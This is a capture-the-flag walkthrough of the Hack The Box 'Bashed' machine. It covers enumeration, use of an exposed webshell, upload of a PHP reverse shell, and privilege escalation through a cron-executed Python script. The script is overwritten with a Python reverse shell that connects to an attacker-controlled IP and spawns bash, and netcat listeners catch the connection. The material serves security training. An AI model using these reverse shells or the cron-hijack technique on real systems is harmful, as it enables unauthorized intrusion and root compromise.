

|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.68 |  | [Bashed](https://app.hackthebox.com/machines/bashed) |  |

---

## Enumeration

### Nmap

```
nmap -T4 -p- -sC -sV -oN nmap/bashed 10.10.10.68

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-10 00:22 EST
Nmap scan report for 10.10.10.68
Host is up (0.074s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

### Web Enumeration

The target hosts a webservice on port 80. Navigating to http://10.10.10.68, we find a simple website title "Arrexel's Development Site". We may assume Arrexel is the user.

Using Gobuster for directory enumeration revealed several endpoints:
> **_NOTE:_** commonly used wordlist for directory and subdomain enumeration

```
gobuster dir -u 10.10.10.68 -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt 
...
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
Progress: 19966 / 19967 (99.99%)
===============================================================
Finished
===============================================================
```

The `/php` directory displays an exposed sendMail.php.


The `/dev` directory contained a webshell named phpbash. Accessing it gave us an interactive shell as the `www-data` user:


## Foothold

We run `sudo -l` to display the sudo privileges of the current user and notice that the scriptmanager can run all. We execute `sudo -u scriptmanager bash -i` to switch to `scriptmanager` user, but the interactive web shell is not persistent.


From our enumeration, we discovered the `uploads` directory. Before attempting to upload a reverse shell, we will test whether file uploads are allowed and accessible.


We verify that the file is accessible by navigating to `http://10.10.10.68/uploads/test`, confirming that we could upload and execute files in this directory.

We copied the PHP reverse shell script from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and create a file called `shell.php`. We must ensure that the IP address and port are changed accordingly.

```
$ip = <Your_IP>;  // CHANGE THIS
$port = <1234>;       // CHANGE THIS
```

We hosted the shell.php file using Python's HTTP server. This makes the file available for download from the target machine. Using the webshell (`phpbash`), we upload the file from our attaching machine at port 80 and catch the reverse shell connection, by starting a netcat listener on port 1234. Finally, we navigate to `http://10.10.10.68/uploads/shell.php` to trigger the reverse shell to gain an persistent interactive shell.

```
python3 -m http.server 80  

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.68 - - [11/Jan/2025 16:18:58] "GET /shell.php HTTP/1.1" 200 -
```


```
nc -lnvp 1234
```


We execute the code to switch to `scriptmanager` user and succeed. We run `ls -la` to see a list of ownership for availabe files. `/scripts` directory contained files owned by `scriptmanager`.

```
sudo -u scriptmanager bash -i
scriptmanager@bashed:/$ ls -la
ls -la
total 92
...
drwxrwxr--   2 scriptmanager scriptmanager  4096 Jan 10 20:21 scripts
...
```

## Privilege Escalation

Running `ls -la` on `/scripts` we obeserve a cron job executed `test.py` every minute. Any modifications will be triggered frequently and will allow us to escalate privilege.


We modify `test.py` with reverse shell script. 
> **_NOTE:_**  The `vi` editor was cumbersome in this environment because it was not reacting to typical vi hotkeys. As a result, we opt to use `echo` for a quicker and more efficient approach to overwrite the file. 

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect((<Your_IP>,1337));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty; 
pty.spawn("/bin/bash")" > test.py
```
We set up a listener on port 1337 and run `test.py` to initate reverse shell.

```
nc -lvnp 1337
```
```
python3 test.py
```
After the cron job triggered the modified `test.py`, we established a root shell, successfully escalating our privileges.



The user and root flag are located in a `/home/arrexel/user.txt` and `root/root.txt`, respectively.